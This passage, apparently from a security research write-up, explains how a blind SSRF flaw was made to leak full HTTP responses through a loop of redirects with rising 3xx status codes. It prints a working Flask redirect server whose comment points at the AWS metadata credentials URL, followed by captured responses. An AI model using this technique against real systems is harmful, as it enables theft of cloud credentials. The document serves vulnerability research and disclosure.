 These attempts were not successful. With a single redirect or a few redirects, the application would fail with a JSON parsing error such as `Exception: Invalid JSON`. When increasing the number of redirects, we found that the application followed up to 30 redirects but would fail with a different exception: `NetworkException` with no `Invalid JSON` error.

Since the above attempts did not lead to a full response being leaked, we moved on to testing HTTP status codes that may be treated differently (such as 401 and 500). This is where we found our first lead within this application. On a 500 HTTP status code response, the application gave us the full HTTP response.

While this was a good start, the keys to the kingdom in this case were the security credentials exposed via the cloud metadata IP. The response for this URL is a 200, and there is no way to get the status code of this response to be a 500.

Since we knew that the application was following redirects for 3xx status codes, intuitively, in a true black box fashion, we had a theory that maybe certain status codes in the 3xx range could trigger the same error state as a 500 status code. We knew that following too many redirects (above 30) would lead to a `NetworkException` error, and following just a few led to a JSON parsing error, but what if we iterated through more 3xx status codes?

We created a basic Flask server that had the following logic:

```python hljs
@app.route('/redir', methods=['GET', 'POST'])
def redir():
    """Handle redirects with loop counter - after 10 redirects, go to final SSRF location."""
    # Get the current redirect count from query parameter, default to 0
    redirect_count = int(request.args.get('count', 0))

    # Increment the counter
    redirect_count += 1
    status_code = 301 + redirect_count
    # If we've reached 10 redirects, redirect to our desired location
    # To grab AWS metadata keys, you would hit http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name-here
    if redirect_count >= 10:
        return redirect("http://example.com", code=302)
    print("trying: " + str(status_code))
    # Otherwise, redirect back to /redir with incremented counter
    return redirect(f"/redir?count={redirect_count}", code=status_code)

@app.route('/start', methods=['POST', 'GET'])
def start():
    """Starting point for redirect loop."""
    return redirect("/redir", code=302)

```

The above code performs a redirect loop, incrementing the HTTP status code on each subsequent request. When exploiting the SSRF issue by pointing it to a URL hosting the above logic, the application responded with the full HTTP redirect chain and responses:

```http hljs
HTTP/1.1 305 USE PROXY
Date: Sun, 01 Jun 2025 02:43:18 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 215
Connection: keep-alive
server: Werkzeug/2.2.3 Python/3.10.12
location: /redir?count=4

HTTP/1.1 306 SWITCH PROXY
Date: Sun, 01 Jun 2025 02:43:18 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 215
Connection: keep-alive
server: Werkzeug/2.2.3 Python/3.10.12
```